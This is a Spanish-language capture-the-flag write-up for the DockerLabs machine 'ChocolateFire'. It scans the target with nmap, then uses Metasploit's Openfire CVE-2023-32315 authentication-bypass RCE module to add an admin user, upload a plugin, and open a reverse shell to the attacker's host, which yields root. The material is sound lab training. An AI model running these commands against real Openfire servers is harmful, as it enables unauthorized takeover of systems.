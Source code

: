 # 🖥️ Writeup - ChocolateFire 

**Plataforma:** Dockerlabs  
**Dificultad:** Medium  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip chocolatefire.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh chocolatefire.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sC -sV -p5262,5269,7070,9090,5275 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 19:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65523 closed tcp ports (reset)
PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
5222/tcp open  jabber
5223/tcp open  ssl/hpvirtgrp?
5262/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5263/tcp open  ssl/unknown
5269/tcp open  xmpp           Wildfire XMPP Client
5270/tcp open  xmp?
5275/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp open  ssl/unknown
7070/tcp open  http           Jetty
7777/tcp open  socks5         (No authentication; connection failed)
9090/tcp open  http           Jetty

MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.53 seconds
```

El único puerto que expone un servicio web abierto es el `9090`.

Al acceder desde el navegador, encontramos un panel de `login` de `Openfire`, que además indica que la versión instalada es la `4.7.4`.

A continuación, abrimos `Metasploit` para comprobar si existe algún exploit compatible con esta versión.

# EXPLOTACIÓN

```bash
msfconsole -q
```

Tras realizar la búsqueda, seleccionamos el segundo exploit disponible.

```bash 
search openfire
```

Info:
```
Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/openfire_auth_bypass                     2008-11-10       excellent  Yes    Openfire Admin Console Authentication Bypass
   1    \_ target: Java Universal                                 .                .          .      .
   2    \_ target: Windows x86 (Native Payload)                   .                .          .      .
   3    \_ target: Linux x86 (Native Payload)                     .                .          .      .
   4  exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315  2023-05-26       excellent  Yes    Openfire authentication bypass with RCE plugin


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
```


```bash
use 4
show options
set LHOST <NUESTRA IP>
set RHOSTS 172.17.0.2
run
```
Info:
```
[*] Started reverse TCP handler on 10.0.4.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0byjr7g6fx8fi14pcejjlp50yi27.node0
[*] csrf=HPKXRCQQlxhVu4I
[*] Adding a new admin user.
[*] Logging in with admin user "aixjxwvim" and password "r0TLSO3xf".
[*] Upload and execute plugin "YUZXWL4DcGP3" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 172.17.0.2
[!] Plugin "YUZXWL4DcGP3" need manually clean-up via Openfire Admin console.
[!] Admin user "aixjxwvim" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (10.0.4.12:4444 -> 172.17.0.2:40304) at 2025-09-08 19:38:36 +0200

```

Al ejecutarlo, conseguimos abrir una `command shell` en la máquina víctima.

```bash
/bin/bash -i
root@39c37e58b12b:~# whoami
root
```

Ya somos root!